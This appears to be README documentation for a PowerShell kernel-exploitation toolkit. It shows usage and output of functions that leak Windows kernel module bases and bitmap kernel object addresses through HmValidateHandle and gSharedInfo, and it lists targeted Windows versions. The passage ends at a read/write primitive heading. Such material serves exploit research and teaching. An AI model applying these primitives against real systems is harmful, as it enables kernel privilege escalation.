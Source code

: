 ### Get-LoadedModules

Gets the base of all loaded modules. For Low integrity this only works pre Win 8.1.

```
C:\PS> $Modules = Get-LoadedModules
C:\PS> $Modules[4]

ImageSize    ImageName                                     ImageBase
---------    ---------                                     ---------
0x5C000      \SystemRoot\System32\drivers\CLFS.SYS    -8246323585024

C:\PS> "{0:X}" -f $Modules[0].ImageBase
FFFFF8030460B000
```

### Stage-HmValidateHandleBitmap
Universal x64 Bitmap leak using HmValidateHandle. Includes tagTHREADINFO pointer to facilitate low integrity EPROCESS leak.

Targets: 7, 8, 8.1, 10, 10 RS1, 10 RS2

```
PS C:\Users\b33f> Stage-HmValidateHandleBitmap |fl

tagTHREADINFO   : -7693316289488
BitmappvScan0   : -7693315010480
BitmapKernelObj : -7693315010560
BitmapHandle    : 419758522

PS C:\Users\b33f> $Manager = Stage-HmValidateHandleBitmap
PS C:\Users\b33f> "{0:X}" -f $Manager.BitmapKernelObj
FFFFE0BF0094A000
```

### Stage-gSharedInfoBitmap

Universal x32/x64 Bitmap leak using gSharedInfo.

Targets: 7, 8, 8.1, 10, 10 RS1

```
PS C:\Users\b33f> Stage-gSharedInfoBitmap |fl

BitmapKernelObj : -7692235059200
BitmappvScan0   : -7692235059120
BitmapHandle    : 1845828432

PS C:\Users\b33f> $Manager = Stage-gSharedInfoBitmap
PS C:\Users\b33f> "{0:X}" -f $Manager.BitmapKernelObj
FFFFF901030FF000
```

### Stage-BitmapReadWrite
